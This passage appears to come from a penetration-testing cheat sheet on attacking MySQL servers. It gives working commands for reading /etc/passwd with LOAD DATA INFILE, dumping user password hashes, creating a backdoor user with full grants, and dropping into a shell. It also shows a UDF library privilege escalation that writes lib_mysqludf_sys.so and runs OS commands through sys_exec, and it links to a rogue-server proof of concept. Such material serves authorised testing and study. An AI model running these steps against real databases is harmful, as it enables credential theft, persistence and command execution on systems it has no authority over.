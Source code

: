 ```bash
mysql> load data infile "/etc/passwd" into table test FIELDS TERMINATED BY '\n';

ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement
```

**Initial PoC:** [**https://github.com/allyshka/Rogue-MySql-Server**](https://github.com/allyshka/Rogue-MySql-Server)  
**In this paper you can see a complete description of the attack and even how to extend it to RCE:** [**https://paper.seebug.org/1113/**](https://paper.seebug.org/1113/)  
**Here you can find an overview of the attack:** [**http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/**](http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/)\*\*\*\*

## POST

### Mysql User

It will be very interesting if mysql is running as **root**:

```bash
cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | grep "user"
```

### Privilege escalation

How to:

* Current Level of access
  * mysql&gt;`select user();`
  * mysql&gt;`select user,password,create_priv,insert_priv,update_priv,alter_priv,delete_priv,drop_priv from user where user='OUTPUT OF select user()';`
* Access passwords
  * mysql&gt; `use mysql`
  * mysql&gt; `select user,password from user;`
* Create a new user and grant him privileges
  * mysql&gt;`create user test identified by 'test';`
  * mysql&gt; `grant SELECT,CREATE,DROP,UPDATE,DELETE,INSERT on *.* to mysql identified by 'mysql' WITH GRANT OPTION;`
* Break into a shell
  * mysql&gt; `\! cat /etc/passwd`
  * mysql&gt; `\! bash`

### Privilege Escalation via library

You can find **compiled versions** of this **libraries** in sqlmap: `locate lib_mysqludf_sys.so` and `locate lib_mysqludf_sys.dll`Instead of `locate` you can also use `whereis` to search for this libraries inside the host.

#### Linux

```sql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/tmp/lib_mysqludf_sys.so'));
select * from npn into dumpfile '/tmp/lib_mysqludf_sys.so';
create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
select sys_exec('id > /tmp/out.txt');
```
